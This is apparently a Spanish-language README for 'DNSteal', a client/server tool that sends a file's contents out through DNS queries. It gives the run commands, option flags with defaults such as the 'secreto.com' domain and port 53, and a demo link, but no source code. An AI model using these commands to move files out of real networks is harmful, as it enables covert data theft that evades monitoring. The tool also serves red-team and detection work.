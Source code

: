 # DNSteal

## Uso

#### 💻 Ejecutar el programa

* **Server**

```bash
python3 DNS_Server.py
```

<img src="/media/Client.png" width="300" title="use example">

* **Client**

```bash
python3 DNS_Client.py -s Server_IP -f File
```

<img src="./media/Server.png" width="300" title="use example">

### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

https://user-images.githubusercontent.com/35707527/210063728-522d5e92-1198-4cfb-9cf6-34a1e27cd88e.mp4
